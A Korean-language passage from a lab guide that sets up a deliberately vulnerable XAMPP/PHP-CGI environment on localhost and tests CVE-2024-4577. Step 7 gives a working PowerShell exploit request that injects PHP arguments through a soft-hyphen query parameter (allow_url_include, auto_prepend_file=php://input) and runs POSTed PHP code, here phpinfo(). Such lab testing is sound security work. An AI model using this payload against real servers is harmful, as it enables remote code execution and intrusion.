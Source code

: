 
## 📋 6단계: Apache 재시작

```powershell
# XAMPP Control Panel에서
# Apache Stop → Start

# 또는 명령줄에서
net stop Apache2.4
net start Apache2.4
```

---

## 📋 7단계: 취약점 테스트

### 테스트 1: 웹사이트 접속

```
http://localhost/1x_inv/
http://localhost/1x_inv/support.php
```

### 테스트 2: PHP-CGI 모드 확인

```
http://localhost/1x_inv/support.php?lang=ko&page=test

# 페이지 소스에서 확인:
# Server API: CGI/FastCGI ✅ (중요!)
# mod_php가 아니어야 함!
```

### 테스트 3: phpinfo() 확인

```powershell
# 임시 테스트 파일 생성
echo "<?php phpinfo(); ?>" > C:\xampp\htdocs\1x_inv\test.php

# 브라우저에서 접속
http://localhost/1x_inv/test.php

# 확인 사항:
# Server API: CGI/FastCGI ✅
# PHP Version: 8.1.25 ✅
# allow_url_include: On ✅
```

### 테스트 4: CVE-2024-4577 공격 테스트

```bash
# PowerShell에서 실행
$url = "http://localhost/1x_inv/support.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
$body = "<?php phpinfo(); ?>"
Invoke-WebRequest -Uri $url -Method POST -Body $body

# 성공하면 phpinfo 출력됨!
```

---